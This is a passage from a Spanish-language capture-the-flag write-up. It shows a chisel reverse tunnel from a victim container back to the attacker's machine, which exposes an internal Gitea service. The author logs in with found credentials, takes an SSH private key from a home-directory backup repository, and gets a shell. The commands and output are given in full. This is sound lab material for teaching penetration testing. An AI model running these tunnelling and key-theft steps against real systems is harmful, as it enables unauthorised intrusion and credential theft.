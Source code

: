 ```console
Packed 1 file.
❯ du -hc chisel
3.0M    chisel
3.0M    total		<------ final size

```

Ahora solo copiamos el executable a la máquina víctima y creamos el tunel:

> Aplicación de `Remote port forwarding`

```console
❯ ./chisel server -p 8080 --reverse 				<------ Máquina atacante
2022/06/29 15:02:02 server: Reverse tunnelling enabled
2022/06/29 15:02:02 server: Fingerprint 1R58OXwRvuvhMHAl4v/FHZtVmD14WxmMw9BPFeAijBs=
2022/06/29 15:02:02 server: Listening on http://0.0.0.0:8080
2022/06/29 15:02:09 server: session#1: tun: proxy#R:3000=>172.17.0.1:3000: Listening

────────────────────────────────────────────────────────────────────────────────────────
/tmp # ./chisel client 10.10.14.181:8080 R:3000:172.17.0.1:3000 <------ Máquina víctima
2022/06/29 20:02:10 client: Connecting to ws://10.10.14.181:8080
2022/06/29 20:02:11 client: Connected (Latency 108.331821ms)
```

> Puedes descargar la herramienta en el siguiente repositorio [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)
{: .prompt-tip}

Ahora entramos a nuestro `localhost` por el puerto `3000`:

![giteaWeb](gitea_web_rpf.png)

Viendo la página y buscando en internet sabemos que **Gitea** es un software "opensource" de control de versiones, similar a **Github**. Además vemos un panel para logearnos, y probando las credenciales que también son parte de un usuario con un repositorio **git** logramos acceder como `dev01`. Luego logramos ver un repositorio de un `backup` de su directorio `home` y con ello su `private key (id_rsa)` 

![backup repository](backup_home_rpf.png)

Ahora solo nos descargamos esa llave, le damos sus respectivos permisos como clave privada `chmod 600 <private_key>`, logramos logearnos y conseguir la flag:

```console
❯ chmod 600 id_rsa
❯ ssh -i id_rsa dev01@10.10.11.164
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-176-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 29 20:42:21 UTC 2022

  System load:  0.34              Processes:              238
  Usage of /:   75.8% of 3.48GB   Users logged in:        1
  Memory usage: 25%               IP address for eth0:    10.10.11.164
  Swap usage:   0%                IP address for docker0: 172.17.0.1


16 updates can be applied immediately.
9 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Last login: Wed Jun 29 18:21:55 2022 from 10.10.16.22
-bash-4.4$ find / -name flag.txt 2>/dev/null | xargs ls -l
total 4
```